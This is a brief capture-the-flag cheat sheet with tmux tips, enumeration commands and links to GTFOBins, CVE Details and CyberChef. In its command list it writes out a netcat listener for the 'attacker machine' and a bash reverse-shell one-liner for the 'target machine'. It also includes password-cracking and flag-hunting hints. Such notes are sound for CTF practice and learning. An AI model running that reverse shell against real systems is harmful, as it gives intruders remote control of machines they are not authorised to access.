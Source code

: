# Hello Capture The Flag (CTF)

## tmux
1. `ctrl+b :` to enter tmux command prompt
2. `$ tmux split-window vim /etc/passwd`
3. `: swap-window -s 3 -t 0`
4. `ctrl+b t`to open clock

## Nice Commands
1. `$ ls -lahR` (read permission, file size, recursively)
2. `$ wordlist` (path to wordlists)
3. `$ locate *2john` (what else john can do?)
4. `$ nc -l -p 12345` on attacker machine
5. `$ bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'` on target machine
6. `$ find / -type f -iname '*flag*' 2>/dev/null`
7. `$ python -m SimpleHTTPServer 8000`
8. `$ ifconfig tun0`

## Useful Links
1. [GTFOBins - Exploitable Unix binaries](https://gtfobins.github.io/)
2. [CVE Details - CVE security vulnerability database](https://www.cvedetails.com/)
3. [CyberChef - Encryption, Encoding, Compression & Data Analysis](https://gchq.github.io/CyberChef/)
